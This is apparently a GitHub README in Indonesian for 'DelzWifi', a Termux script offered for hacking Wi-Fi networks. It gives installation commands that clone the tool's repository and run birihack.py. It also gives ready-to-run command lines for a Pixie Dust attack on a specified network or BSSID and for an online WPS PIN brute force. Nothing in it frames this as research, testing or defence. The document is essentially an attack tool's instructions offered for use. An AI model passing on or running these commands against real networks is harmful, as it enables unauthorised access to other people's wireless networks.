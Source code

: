 ## DelzWifi
### Hack WIfi Mengunakan Termux! (Wajib Root)

<p align="center"><img src="https://i.ibb.co/K74g0SC/hulu.jpg"></p>

### Installation :

```bash
apt update && apt upgrade
pkg install -y root-repo
pkg install -y git sudo python wpa-supplicant pixiewps iw
git clone https://github.com/ghodelzcalm/DelzWifi
sudo python DelzWifi/birihack.py -i wlan0 -K
```

## Langsung Menjalankan Perintah Script

```bash

sudo python DelzWifi/birihack.py -i wlan0 -K
```


## Perbarui

```bash

(cd DelzWifi && git pull)
```



#### Note: 
**Pertama matikan Wifi Anda.**
- Show avaliable networks and start Pixie Dust attack on a specified network.
- `sudo python birihack.py -i wlan0 -K`
- - Start Pixie Dust attack on a specified BSSID:
`sudo python birihack.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`
- Launch online WPS bruteforce with the specified first half of the PIN:
- `sudo python birihack.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234`
### Troubleshooting
**"Jika Terjadi Error" - Nyalakan Wifi lalu Matikan Wifi.**

### Berhentikan script yang sedang berjalan 
**" (CTRL C).**
